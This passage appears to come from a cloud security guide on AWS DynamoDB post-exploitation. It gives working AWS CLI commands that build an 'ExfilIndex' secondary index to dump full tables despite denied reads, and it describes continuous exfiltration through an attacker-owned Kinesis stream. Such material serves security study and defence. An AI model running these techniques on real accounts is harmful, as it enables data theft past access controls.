 ```bash
  --attribute-definitions AttributeName=X,AttributeType=S \
  --global-secondary-index-updates '[{"Create":{"IndexName":"ExfilIndex","KeySchema":[{"AttributeName":"X","KeyType":"HASH"}],"Projection":{"ProjectionType":"ALL"}}}]' \
  --region us-east-1
# Wait for index to become ACTIVE
aws dynamodb describe-table --table-name HTXIdx --region us-east-1 \
  --query 'Table.GlobalSecondaryIndexes[?IndexName==`ExfilIndex`].IndexStatus'

# 3) Set X="dump" for each item (only UpdateItem on known keys)
for i in 1 2 3 4 5; do \
  aws dynamodb update-item --table-name HTXIdx \
  --key "{\"id\":{\"S\":\"$i\"}}" \
  --update-expression 'SET #x = :v' \
  --expression-attribute-names '{"#x":"X"}' \
  --expression-attribute-values '{":v":{"S":"dump"}}' \
  --region us-east-1; done

# 4) Query the index by the constant value to retrieve full items
aws dynamodb query --table-name HTXIdx --index-name ExfilIndex \
  --key-condition-expression '#x = :v' \
  --expression-attribute-names '{"#x":"X"}' \
  --expression-attribute-values '{":v":{"S":"dump"}}' \
  --region us-east-1
```

**Potential Impact:** Full table exfiltration by querying a newly created GSI that projects all attributes, even when base table read APIs are denied.

### `dynamodb:EnableKinesisStreamingDestination` (Continuous exfiltration via Kinesis Data Streams)

Abusing DynamoDB Kinesis streaming destinations to continuously exfiltrate changes from a table into an attacker-controlled Kinesis Data Stream. Once enabled, every INSERT/MODIFY/REMOVE event is forwarded near real-time to the stream without needing read permissions on the table.

Minimum permissions (attacker):
- `dynamodb:EnableKinesisStreamingDestination` on the target table
- Optionally `dynamodb:DescribeKinesisStreamingDestination`/`dynamodb:DescribeTable` to monitor status
- Read permissions on the attacker-owned Kinesis stream to consume records: `kinesis:*`

<details></details>

**Potential Impact:** Continuous, near real-time exfiltration of table changes to an attacker-controlled Kinesis stream without direct read operations on the table.

